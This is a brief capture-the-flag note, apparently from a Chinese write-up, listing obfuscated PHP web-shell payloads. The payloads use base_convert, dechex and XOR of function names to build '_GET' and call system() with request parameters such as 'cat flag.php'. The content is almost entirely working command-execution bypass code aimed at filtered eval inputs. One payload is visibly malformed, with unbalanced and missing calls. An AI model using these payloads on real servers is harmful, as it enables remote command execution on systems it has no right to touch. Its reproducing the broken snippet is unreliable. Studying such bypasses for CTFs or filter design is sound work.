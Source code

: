 参考https://johnfrod.top/ctf/利用数学函数构造命令执行/

```php
<?php $pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos});?>  

abs=system&acos=ls
// $pi=_GET;($_GET[abs])($_GET[acos])    ==> $pi=_GET;(system)(ls)
//得到 _GETflag.php index.php
<?php $pi=base_convert;$pi(1751504350,10,36)($pi(8768397090111664438,10,30)(){1};?>
HEADER:    1:cat flag.php
   
<?php $pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1});?>


GET传参    0=system&1=cat flag.php
//$pi=_GET;$pi=$_GET;$_GET[0]($_GET[1])&0=system&1=cat flag.php     ==> system(cat flag.php)
```
